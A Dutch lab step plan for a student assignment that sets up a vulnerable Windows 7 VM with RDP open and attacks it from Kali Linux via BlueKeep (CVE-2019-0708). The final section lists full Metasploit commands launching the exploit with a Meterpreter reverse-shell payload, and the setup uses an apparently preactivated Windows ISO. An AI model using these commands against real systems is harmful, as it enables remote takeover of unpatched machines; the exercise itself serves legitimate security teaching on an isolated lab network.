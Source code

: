 # STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:
#### Downloaden en installatie van nodige bestanden


- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png` en klik op **ISO IMAGE**
- Zet de gedownloade ISO-file in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, moeten we versie 6.1.26 downloaden via `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook deze ISO-file in dezelfde map.

#### Execution-Policy aanpassen
Soms laat je Host-Computer niet toe om powershell-scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster:

```ps
# Probeer eerst deze command
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: aanmeken Windows7-VM

- Start het `create_win7_vm.ps1` script
- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup (klik telkens op *Next*) en vertrouw de installatie indien je dit scherm krijgt. Klik dan op **Install**.
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open op de Windows7-VM *cmd* als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.
- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali 

Zodra de Windows 7 VM klaarstaat, moet je er niets meer aan aanpassen. We gaan nu voortdoen met het opzetten van de Kali VM.

### Stap 1:  Netwerkconfiguratie
**Zorgen dat beide VMs in hetzelfde interne netwerk zitten**

- Verander in de VirtualBox settings op je Host-Computer:
  - Netwerkadapter 1: default NAT (zodat je internet hebt)
  - Netwerkadapter 2: *internal network* en selecteer `npe_intnet` 

**IP-adres toekennen aan eth1**

- Open een terminal op Kali en voer het volgende uit:

```bash
sudo ip addr add 10.10.10.3/24 dev eth1
sudo ip link set eth1 up
```

### Stap 2: Start Metasploit

```bash
msfconsole
```

- Laad vervolgens het Bluekeep exploit:

```
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set RHOSTS 10.10.10.2
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.3
set LPORT 4444
set TARGET 1
run
```

- Als alles correct is ingesteld, opent er zich een Meterpreter sessie waarmee je het systeem kunt overnemen.
